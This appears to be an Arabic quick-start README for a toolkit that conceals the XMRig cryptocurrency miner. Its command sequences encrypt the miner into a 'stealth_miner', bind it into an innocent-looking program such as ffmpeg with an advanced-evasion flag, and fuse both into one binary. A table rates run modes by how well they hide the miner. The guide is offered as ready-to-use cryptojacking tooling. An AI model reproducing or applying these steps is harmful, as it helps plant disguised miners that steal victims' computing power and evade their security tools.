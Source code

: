 # 📋 دليل الاستخدام السريع

## 🚀 البدء السريع

### 1. نظام الإخفاء الأساسي
```bash
cd "crypt xmrig"
# ضع ملف xmrig هنا
./crypt_xmrig.sh
cd output
./stealth_miner
```

### 2. الدمج مع برامج بريئة
```bash
cd Linking
./linking_builder.sh
cd output
./seamless_linker --innocent ffmpeg --advanced-evasion
```

### 3. الدمج الثنائي الكامل
```bash
cd Linking
# ضع ملفات ffmpeg و xmrig هنا
./fusion_builder.sh
cd output
./fused_binary auto
```

## 🛡️ أوضاع التشغيل

| الوضع | الاستخدام | مستوى الإخفاء |
|-------|----------|---------------|
| `auto` | تبديل ذكي | عالي جداً |
| `stealth` | XMRig فقط مخفي | عالي |
| `innocent` | برنامج بريء فقط | آمن |
| `hybrid` | الاثنان معاً | متوسط |

---
**⚡ للاستخدام السريع دون قراءة الوثائق الطويلة**
